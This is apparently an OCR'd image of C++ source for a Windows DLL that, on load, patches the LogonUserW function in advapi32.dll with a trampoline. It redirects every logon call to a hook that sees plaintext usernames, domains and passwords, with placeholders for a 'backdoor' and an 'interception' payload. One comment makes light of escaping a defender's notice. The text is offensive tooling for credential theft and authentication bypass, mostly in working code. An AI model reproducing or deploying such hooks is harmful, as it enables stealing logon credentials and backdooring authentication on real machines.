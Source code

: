 ```cpp
    outfile.close();

    void* LogonUserWAddr = GetProcAddress(LoadLibraryA("advapi32.dll"), "LogonUserW");
    if (LogonUserWAddr == NULL) {
        // Should never happen, but just incase
        return;
    }

    // Update page protection so we can inject our trampoline
    VirtualProtect(LogonUserWAddr, 0x1000, PAGE_EXECUTE_READWRITE, &oldProtect);

    // Add our JMP addr for our hook
    *(void**)(trampoline + 2) = &LogonUserWHook;

    // Copy over our trampoline
    memcpy(LogonUserWAddr, trampoline, sizeof(trampoline));

    // Restore previous page protection so Dom doesn't shout
    VirtualProtect(LogonUserWAddr, 0x1000, oldProtect, &oldProtect);
}

// The hook we trampoline into from the beginning of LogonUserW
// Will invoke LogonUserExW when complete, or return a status ourselves
BOOL LogonUserWHook(LPCWSTR username, LPCWSTR domain, LPCWSTR password, DWORD logonType, DWORD logonProvider, PHANDLE hToken) {
    PSID logonSID;
    void* profileBuffer = (void*)0;
    DWORD profileLength;
    QUOTA_LIMITS quota;
    bool ret;
    WCHAR pipeBuffer[1024];
    DWORD bytesWritten;

    // Refer to "Authentication requests interception" / "Authentication Agent backdoor" sections below

    // <INJECTED_CODE_BACKDOOR>

    // Forward request to LogonUserExW and return result
    ret = LogonUserExW(username, domain, password, logonType, logonProvider, hToken, &logonSID, &profileBuffer, &profileLength, &quota);

    // <INJECTED_CODE_INTERCEPTION>

    return ret;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        Start();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```